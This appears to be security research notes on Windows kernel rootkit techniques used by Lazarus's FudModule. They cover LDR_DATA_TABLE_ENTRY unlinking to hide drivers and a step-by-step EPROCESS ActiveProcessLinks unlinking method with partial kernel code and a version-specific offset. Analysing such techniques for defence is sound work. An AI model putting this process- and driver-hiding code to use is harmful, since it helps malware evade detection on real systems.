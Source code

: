 ### LDR_DATA_TABLE_ENTRY (Loaded Module Entry)

Tracks loaded kernel modules (drivers):

```cpp
typedef struct _LDR_DATA_TABLE_ENTRY {
    LIST_ENTRY InLoadOrderLinks;           // Load order list
    LIST_ENTRY InMemoryOrderLinks;         // Memory order list
    LIST_ENTRY InInitializationOrderLinks; // Initialization order list
    PVOID DllBase;                         // Module base address
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    // ... more fields
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

**Attack Surface for DKOM:**
- Unlink from `InLoadOrderLinks` (hide from load order enumeration)
- Unlink from `InMemoryOrderLinks` (hide from memory enumeration)
- Unlink from `InInitializationOrderLinks` (hide from init order enumeration)
- **Triple Unlinking:** Unlink from ALL three lists for complete driver hiding

## FudModule Techniques (Lazarus APT)

### Technique 1: EPROCESS Unlinking (Process Hiding)

**Objective:** Hide malicious process from `NtQuerySystemInformation` and other enumeration APIs

**Method:**
1. Locate target EPROCESS structure via PID
2. Extract `ActiveProcessLinks.Flink` (forward link) and `Blink` (backward link)
3. Unlink target from doubly-linked list:
   ```
   BEFORE:
   [...] <-> [Process A] <-> [Target Process] <-> [Process B] <-> [...]

   AFTER:
   [...] <-> [Process A] <-> [Process B] <-> [...]
   [Target Process] (orphaned, not in list)
   ```
4. Update neighboring processes to point to each other
5. Target process continues running but invisible to enumeration

**Kernel Code Example:**

```cpp
// Locate EPROCESS for target PID
PEPROCESS pTargetProcess = NULL;
NTSTATUS status = PsLookupProcessByProcessId((HANDLE)dwTargetPID, &pTargetProcess);
if (!NT_SUCCESS(status)) return status;

// Calculate offset of ActiveProcessLinks (varies by Windows version)
// Windows 10 22H2: EPROCESS + 0x448
ULONG_PTR offsetActiveProcessLinks = 0x448;

// Get pointer to ActiveProcessLinks in target EPROCESS
PLIST_ENTRY pActiveLinks = (PLIST_ENTRY)((ULONG_PTR)pTargetProcess + offsetActiveProcessLinks);

// Unlink from doubly-linked list
// CRITICAL: Validate pointers before dereferencing to avoid kernel crash
PLIST_ENTRY pFlink = pActiveLinks->Flink;
PLIST_ENTRY pBlink = pActiveLinks->Blink;
```